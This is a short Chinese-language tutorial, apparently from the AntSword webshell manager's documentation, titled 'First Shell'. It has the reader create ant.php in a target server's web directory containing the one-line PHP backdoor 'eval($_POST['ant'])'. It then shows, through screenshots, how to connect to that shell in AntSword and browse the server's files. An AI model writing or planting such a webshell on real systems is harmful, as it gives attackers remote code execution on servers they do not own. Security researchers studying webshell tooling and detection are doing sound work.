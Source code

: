 第一个Shell
---

> 本小节会教你快速添加一个Shell

下面是添加的步骤：

> 以 PHP 为例

##### 1.在目标服务器的Web目录下新建一个Shell

文件名为: `ant.php`

其内容为：

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.打开AntSword，在空白位置单击「鼠标右键」，弹出菜单，选择 「`添加数据`」

![][img_first_shell_2]

##### 3.在添加数据界面中，如下图，填必要的信息

![][img_first_shell_3]

然后点击 「`添加`」按钮，即可在数据管理中看到刚才添加的 Shell

![][img_first_shell_4]

##### 4.双击刚才添加的 Shell,即可看到文件管理界面

![][img_first_shell_5]

> 一切就是如此简单：）

[img_first_shell_1]: http://as.xuanbo.cc/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://as.xuanbo.cc/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://as.xuanbo.cc/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://as.xuanbo.cc/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://as.xuanbo.cc/doc/getting_started/first_shell_5.jpg
